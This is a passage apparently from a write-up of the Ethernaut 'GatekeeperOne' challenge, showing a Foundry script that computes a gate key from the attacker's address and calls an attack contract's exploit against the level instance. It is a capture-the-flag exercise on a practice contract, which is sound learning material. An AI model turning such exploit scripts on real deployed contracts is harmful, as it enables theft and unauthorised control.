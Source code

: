 ```foundry
    
    GatekeeperOne gatekeeperOne = GatekeeperOne(0x9262e95bC9612a968F9Ab46Bd8B155816A32eECA); // instance address
    
    function run() public {
        uint256 attackerPrivateKey = vm.envUint("PRIVATE_KEY");
        address attacker = vm.addr(attackerPrivateKey);

        console.log("Attacker address:", attacker);

        uint16 last16 = uint16(uint160(attacker));
        bytes8 gateKey = bytes8(uint64(last16) | (uint64(1) << 32));
        console.logBytes8(gateKey);

        vm.startBroadcast(attackerPrivateKey);

        Attack attack = new Attack(gatekeeperOne);

        attack.exploit(gateKey);
        
        vm.stopBroadcast();
        
        // Verify the attack was successful
        require(gatekeeperOne.entrant() == attacker, "Attack failed");
        console.log("Success! Entrant is now:", gatekeeperOne.entrant());

    }

}
```

---
